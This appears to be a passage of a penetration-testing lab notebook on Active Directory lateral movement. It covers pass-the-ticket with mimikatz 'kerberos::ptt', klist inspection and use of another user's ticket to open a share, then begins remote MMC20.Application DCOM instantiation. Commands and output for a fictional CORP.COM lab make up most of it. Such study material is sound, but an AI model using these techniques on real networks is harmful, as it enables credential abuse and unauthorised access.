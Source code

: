 Pick any TGS in `dave@cifs-web04.kirbi` format and inject into process memory using mimikatz `kerberos::ptt`

```
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

* File: '[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi': OK
```

Inspect the TGS in memory 
```hlt:5,7,8
PS C:\Tools> klist

Current LogonId is 0:0x13bca7

Cached Tickets: (1)

#0>     Client: dave @ CORP.COM
        Server: cifs/web04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40810000 -> forwardable renewable name_canonicalize
        Start Time: 9/14/2022 5:31:32 (local)
        End Time:   9/14/2022 15:31:13 (local)
        Renew Time: 9/21/2022 5:31:13 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

Now we can access the backup folder as jen using dave's TGS
```
PS C:\Tools> ls \\web04\backup


    Directory: \\web04\backup


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/13/2022   2:52 AM              0 backup_schemata.txt
```

### DCOM
#dcom
Used for interaction between multiple computers in a network over RPC on port 135

#### Scenario 
Logged in as Jen on CLIENT74. 
Open elevated PowerShell and instantiate remote MMC 2.0 app with target IP
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname